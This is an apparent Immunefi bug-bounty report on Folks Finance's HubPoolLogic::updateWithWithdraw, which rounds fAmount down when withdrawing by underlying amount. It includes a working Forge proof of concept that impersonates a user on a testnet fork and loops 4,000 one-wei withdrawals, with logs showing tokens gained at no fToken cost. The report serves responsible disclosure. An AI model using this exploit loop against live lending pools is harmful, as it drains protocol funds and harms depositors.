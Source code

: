 # Boost \_ Folks Finance 33923 - \[Smart Contract - Low] Function HubPoolLogicupdateWithWithdraw doesnt round up in favour of protocol if isFAmount false

Submitted on Thu Aug 01 2024 20:25:45 GMT-0400 (Atlantic Standard Time) by @Paludo0x for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33923

Report type: Smart Contract

Report severity: Low

Target: https://testnet.snowtrace.io/address/0x96e957bF63B5361C5A2F45C97C46B8090f2745C2

Impacts:

* Protocol insolvency

## Description

## Brief/Intro

Function `HubPoolLogic::updateWithWithdraw()` doesn't round up in favour of protocol if `isFAmount` == false. This implies that users will receive more underlying tokens than they should due to rounding errors.

## Vulnerability Details

Function `HubPoolLogic::updateWithWithdraw()` is called by `LoanManager::executeWithdraw()` to calculate underlying and fAmount to be withdrawn.

This is the function snippet

```
    function updateWithWithdraw(
        HubPoolState.PoolData storage pool,
        uint256 amount,
        bool isFAmount
    ) external returns (DataTypes.WithdrawPoolParams memory withdrawPoolParams) {
        // can withdraw even if pool is depreciated
        // update interest indexes before the interest rates change
        pool.updateInterestIndexes();

        if (isFAmount) {
            withdrawPoolParams.fAmount = amount;
            withdrawPoolParams.underlingAmount = amount.toUnderlingAmount(pool.depositData.interestIndex);
        } else {
            withdrawPoolParams.underlingAmount = amount;
            withdrawPoolParams.fAmount = amount.toFAmount(pool.depositData.interestIndex);
        }

        pool.depositData.totalAmount -= withdrawPoolParams.underlingAmount;
        pool.updateInterestRates();
    }
```

In case `isFAmount` == false the `fAmount` is calculated as follows:

```
   function toFAmount(uint256 underlyingAmount, uint256 depositInterestIndexAtT) internal pure returns (uint256) {
        return underlyingAmount.mulDiv(ONE_18_DP, depositInterestIndexAtT);
    }
```

Since `depositInterestIndexAtT` is always grater than `ONE_18_DP` the fAmount will be rounded down.

That means `pool.depositData.totalAmount -= withdrawPoolParams.underlingAmount;` will be decreased by the amount required by the user while `loan.collaterals[poolId].balance -= fAmount;` will be decreased by a smaller amount.

## Impact Details

This bug can be exploited by a malicious user by withdrawing 1 wei in a `for` loop, or even in the long run by all users which carry out multiple withdrawals of deposited funds.

## Proof of concept

## POC

The following POC shall be run in Forge. The aim is to check the user and pool balances after withdrawal of 1 wei.

This test forks mainnet, and starts from a withdrawal onchain transaction. This is the transaction https://testnet.snowtrace.io/tx/0xbc7c3f5d5447d7a40c741f92a8e789c8ad588b618d699cffea29e091955e81a4?chainid=43113

The POC shall be run with the following command: `forge test --match-test test_withdraw_1_wei --fork-url https://api.avax-test.network/ext/bc/C/rpc --fork-block-number 35147412 -vv --via-ir --optimizer-runs 10000`

```

// SPDX-License-Identifier: BUSL-1.1
pragma solidity >=0.5.0 <0.9.0;

import "..//lib/openzeppelin-contracts/lib/forge-std/src/Test.sol";
import {SpokeCommon} from "../contracts/spoke/SpokeCommon.sol";
import {HubPoolLogic} from "../contracts/hub/logic/HubPoolLogic.sol";
import "../contracts/hub/LoanManager.sol";
import {BridgeRouterHub} from "../contracts/bridge/BridgeRouterHub.sol";
import "../contracts/hub/HubNonBridgedTokenPool.sol";


contract WithdrawTest is Test {

  SpokeCommon immutable avaxSpokeCommon = SpokeCommon(0x6628cE08b54e9C8358bE94f716D93AdDcca45b00);
  BridgeRouterHub immutable bridgeRouterHub = BridgeRouterHub(0xa9491a1f4f058832e5742b76eE3f1F1fD7bb6837);
  LoanManager immutable avaxLoanManager = LoanManager(0x2cAa1315bd676FbecABFC3195000c642f503f1C9);
  HubNonBridgedTokenPool immutable avaxHubNonBridgedTokenPool = HubNonBridgedTokenPool(0xd90B7614551E799Cdef87463143eCe2efd4054f9);
  address immutable userAddress = 0xD24DbB11D2869D27bd09Bcf7326a3108B78F42bf; 

  function setUp() public { 
    vm.label(address(avaxSpokeCommon), "avaxSpokeCommon");
    vm.label(address(bridgeRouterHub), "bridgeRouterHub");
    vm.label(address(userAddress), "userAddress");
    vm.label(address(avaxHubNonBridgedTokenPool), "avaxHubNonBridgedTokenPool");
  }

  //forge test --match-test test_withdraw_1_wei --fork-url https://api.avax-test.network/ext/bc/C/rpc --fork-block-number 35147412 -vvvvv
  //Copied transaction https://testnet.snowtrace.io/tx/0xbc7c3f5d5447d7a40c741f92a8e789c8ad588b618d699cffea29e091955e81a4?chainid=43113
  function test_withdraw_1_wei() external  {
    bytes32 accountId = 0x3c9db9e514e887a1c99a8f1d7ab7bbf734a7ab5fb55398d5632ad6d24e71c7f8;
    bytes32 loanId = 0x1079207bbaa94b74d8501bae5559ebb1660dff434fa330f590265652e13466df;

    //we set user balance to 0
    deal(userAddress,0);
    console2.log("User Initial Balance", userAddress.balance);
  

        (
        //bytes32 accountId,
       , //uint16 loanTypeId,
       , //uint8[] memory colPools,
       , //uint8[] memory borPools,
       , LoanManagerState.UserLoanCollateral[] memory loanCollateral,
        ///UserLoanBorrow[] memory
    ) =  avaxLoanManager.getUserLoan(loanId);
    console2.log("User initial fAmount balance %e", loanCollateral[0].balance);

    HubPoolState.DepositData memory poolDepositTemp = avaxHubNonBridgedTokenPool.getDepositData();
    console2.log("Pool initial deposit total amount %e", poolDepositTemp.totalAmount);

    Messages.MessageParams memory params = Messages.MessageParams({
        adapterId: 0x0000000000000000000000000000000000000000000000000000000000000001,
        returnAdapterId: 0x0000000000000000000000000000000000000000000000000000000000000001, 
        receiverValue: 0x0000000000000000000000000000000000000000000000000000000000000000,
        gasLimit: 0x0000000000000000000000000000000000000000000000000000000000000000,
        returnGasLimit: 0x0000000000000000000000000000000000000000000000000000000000000000
    });

    vm.startPrank(userAddress);
    //we iterate the withdrawal of 1 wei
    for(uint256 i ; i<4e3; i++)
      avaxSpokeCommon.withdraw( 
          params,
          accountId, //account ID
          loanId, // loanId
          129, //poolId
          1, // chainId,
          1, // amount,
          false // isFAmount
      );

    console2.log("User final Balance", userAddress.balance);

    (  , , , , loanCollateral,  ) =  avaxLoanManager.getUserLoan(loanId);
    console2.log("User final fAmount balance %e", loanCollateral[0].balance);

    poolDepositTemp = avaxHubNonBridgedTokenPool.getDepositData();
    console2.log("Pool final deposit total amount %e", poolDepositTemp.totalAmount);

  }
}

```

This is the console output. The amount of underlying token received back by user increases, the pool amount decreases, while the user fToken amount doesn't change.

```

[PASS] test_withdraw_1_wei() (gas: 845444793)
Logs:
  User Initial Balance 0
  User initial fAmount balance 9.9948666910183675e16
  Pool initial deposit total amount 2.029690866072611417037e21
  User final Balance 4000
  User final fAmount balance 9.9948666910183675e16
  Pool final deposit total amount 2.029690866072611413037e21

```
